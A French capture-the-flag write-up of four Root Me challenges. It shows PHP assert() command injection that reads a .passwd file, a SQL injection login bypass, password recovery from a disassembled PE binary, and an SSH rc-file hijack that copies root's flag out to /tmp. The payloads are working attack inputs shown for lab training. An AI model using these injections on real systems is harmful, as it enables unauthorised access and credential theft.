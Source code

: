 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>

![alt text](esgi_logo.png "ESGI")
</br>
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exécuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND \`username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall3/chall3.png "PE x86 - 0 protection")
</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>

![alt text](imgchall3/cutter_1.png "PE x86 - 0 protection")
</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>

![alt text](imgchall3/cutter_2.png "PE x86 - 0 protection")
</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>

![alt text](imgchall3/cutter_3.png "PE x86 - 0 protection")
</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall4/chall4.png "SSH - Agent Hijacking")
</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>

![alt text](imgchall4/chall4_1.png "SSH - Agent Hijacking")
</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>

![alt text](imgchall4/chall4_2.png "SSH - Agent Hijacking")
</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__